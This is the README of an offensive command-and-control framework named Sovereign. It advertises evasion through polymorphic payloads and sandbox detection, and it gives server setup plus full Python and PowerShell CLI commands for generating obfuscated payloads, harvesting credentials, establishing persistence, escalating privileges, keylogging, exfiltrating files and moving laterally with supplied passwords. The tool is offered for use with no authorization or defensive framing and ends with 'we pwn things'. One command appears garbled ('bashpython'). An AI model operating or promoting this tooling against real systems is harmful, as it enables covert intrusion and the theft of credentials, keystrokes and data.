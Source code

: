 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Cross-Platform Support**: CLI available in both Python (`cli.py`) and PowerShell (`cli.ps1`).
- **Logging and Reporting**: Detailed logging and report generation.

---

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python3 c2_server/c2_server.py
    ```

---

## Using the CLI

The CLI provides various commands to interact with the framework.

### Python CLI (`cli.py`)

#### List all registered agents:
```bash
python cli/cli.py list-agents
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send-command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate-payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest-credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish-persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate-privileges
```

#### Gather system information:
```bash
python cli/cli.py gather-system-info --agent_id AGENT_ID
```

#### Exfiltrate data:
```bash
bashpython cli/cli.py exfiltrate-data --file_path /path/to/file
```

#### Start keylogger:
```bash
python cli/cli.py start-keylogger --agent_id AGENT_ID
```

#### Move laterally:
```bash
python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

---

### PowerShell CLI (`cli.ps1`)

For Windows systems, `cli.ps1` provides the same functionality as `cli.py`. Run the following commands in a PowerShell terminal:

#### List all registered agents:
```powershell
.\cli\cli.ps1 list-agents
```

#### Send a command to a specific agent:
```powershell
.\cli\cli.ps1 send-command -agent_id AGENT_ID -command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```powershell
.\cli\cli.ps1 generate-payload -platform PLATFORM
```

#### Harvest credentials:
```powershell
.\cli\cli.ps1 harvest-credentials
```

#### Establish persistence:
```powershell
.\cli\cli.ps1 establish-persistence
```

#### Escalate privileges:
```powershell
.\cli\cli.ps1 escalate-privileges
```

#### Gather system information:
```powershell
.\cli\cli.ps1 gather-system-info -agent_id AGENT_ID
```

#### Exfiltrate data:
```powershell
.\cli\cli.ps1 exfiltrate-data -file_path "C:\path\to\file"
```

#### Start keylogger:
```powershell
.\cli\cli.ps1 start-keylogger -agent_id AGENT_ID
```

#### Move laterally:
```powershell
.\cli\cli.ps1 move-laterally -target_ip TARGET_IP -username USERNAME -password PASSWORD
```

---

## Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data:

### Using Python:
```bash
python c2_server/c2_server.py generate-report
```

### Using PowerShell:
```powershell
.\cli\cli.ps1 generate-report
```

This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

---

## Adding New Modules

To add new post-exploitation modules:

- **Python:** Create a new Python file in the `cli/modules` directory and implement the desired functionality.
- **PowerShell:** Add a corresponding PowerShell script in `cli/modules/windows/` if needed.
- Update the CLI scripts (`cli.py` and `cli.ps1`) to include commands for the new module.

---

## Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

---

## License

This project is licensed under the MIT License.

---

# By the way, we pwn things...
